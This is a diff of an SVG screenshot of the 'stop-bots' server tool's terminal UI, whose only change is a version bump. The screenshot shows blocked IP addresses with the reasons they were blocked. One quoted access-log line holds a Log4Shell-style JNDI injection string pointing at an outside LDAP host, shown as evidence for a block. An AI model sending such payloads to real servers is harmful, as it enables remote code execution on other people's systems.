

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
-   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="126.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.0.15  web-01</text>
+   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="159.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.2.0-rc.1  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">console</text>
  <text x="574.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="591.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="642.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="658.8" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="742.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="759.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="810.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="826.8" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="566.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">help</text>
  <text x="616.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
  <text x="633.6" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
  <text x="692.4" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
  <text x="709.2" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
